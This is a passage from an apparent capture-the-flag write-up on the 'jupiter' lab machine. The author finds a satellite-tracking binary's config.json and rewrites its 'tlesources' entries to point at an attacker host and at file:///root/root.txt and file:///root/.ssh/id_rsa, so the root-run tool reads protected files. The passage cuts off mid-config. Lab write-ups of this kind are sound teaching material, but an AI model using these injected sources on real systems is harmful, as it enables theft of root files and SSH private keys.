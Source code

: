 I try to create my own config file that this binary needs, until I realize I can search for it and save myself hours of fuzzing.

```bash
jovian@jupiter:/opt/solar-flares$ find / -name config.json 2>/dev/null
find / -name config.json 2>/dev/null
/usr/local/share/sattrack/config.json
/usr/local/lib/python3.10/dist-packages/zmq/utils/config.json
jovian@jupiter:/opt/solar-flares$ cat /usr/local/share/sattrack/config.json
cat /usr/local/share/sattrack/config.json
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://celestrak.org/NORAD/elements/weather.txt",
		"http://celestrak.org/NORAD/elements/noaa.txt",
		"http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
		"name": "LORCA",
		"lat": 37.6725,
		"lon": -1.5863,
		"hgt": 335.0
	},
	
	"show": [
	],
	
	"columns": [
		"name",
		"azel",
		"dis",
		"geo",
		"tab",
		"pos",
		"vel"
	]
}
```

The tlesources seem injectable with file:/// or my own server hosted file. So naturally I tried 3 different options to see what bites.

```
{
	"tleroot": "/tmp/tle/",
	"tlefile": "weather.txt",
	"mapfile": "/usr/local/share/sattrack/map.json",
	"texturefile": "/usr/local/share/sattrack/earth.png",
	
	"tlesources": [
		"http://10.10.14.2:8080/raccoonbash",
		"file:///root/root.txt",
		"file:///root/.ssh/id_rsa"
	],
	
	"updatePerdiod": 1000,
	
	"station": {
```